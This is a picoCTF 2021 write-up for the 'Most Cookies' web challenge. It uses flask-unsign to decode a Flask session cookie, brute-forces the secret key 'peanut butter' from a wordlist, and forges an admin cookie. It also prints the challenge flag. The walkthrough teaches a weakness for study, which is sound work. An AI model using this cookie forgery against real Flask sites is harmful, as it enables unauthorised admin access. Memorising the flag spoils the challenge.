


# Most Cookies

## Information

- picoCTF 2021
- Web Exploitation
- 150 Points

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) http://mercury.picoctf.net:52134/

## Hints

1. How secure is a flask cookie?

## Solution

Going to the website, we see a webpage simiar to that from [Cookies](/web-exploitation/cookies.md) and [More Cookies](/web-exploitation/more-cookies/more-cookies.md).



Looking at the cookies, we can see there is one cookie called `session` with a value of `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk`.

Since, this is generated using Flask, we can use a command line package called [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) for this challenge.

To decode the session cookie, we can use either one of the following commands on a command line.

```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk'
```

This will output the following:

```bash
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk
{'very_auth': 'blank'}
```

We now understand what the decrypted session cookie value. Now, we need to find the secret key, that the server is using to encrypt the session cookies. This can be found by creating a wordlist of all the different cookies as found in [server.py](/web-exploitation/most-cookies/server.py) and putting them into a [text file](/web-exploitation/most-cookies/wordlist.txt). Then we run the following command.

```bash
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk' --wordlist wordlist.txt
```

This will output the following:

```bash
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (28): white ch[+] Found secret key after 28 attempts
'peanut butter'
```

Using the secret key of `peanut butter`, we can now modify the cookie to reveal the secret key. From `server.py`, we know that if we if the value is `{very_auth: admin}`, then it will reveal the flag.

```python
if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

Using this knowledge, we can create a new session value using the secret key.

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
```

This will give us the session value of:

```bash
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZV24FQ.NvlS-xAqAf1iwQ8C0ecc1T1DX6U
```

Modifying the value of cookie `session` and we should see the flag.



## Flag

picoCTF{pwn_4ll_th3_cook1E5_478da04c}
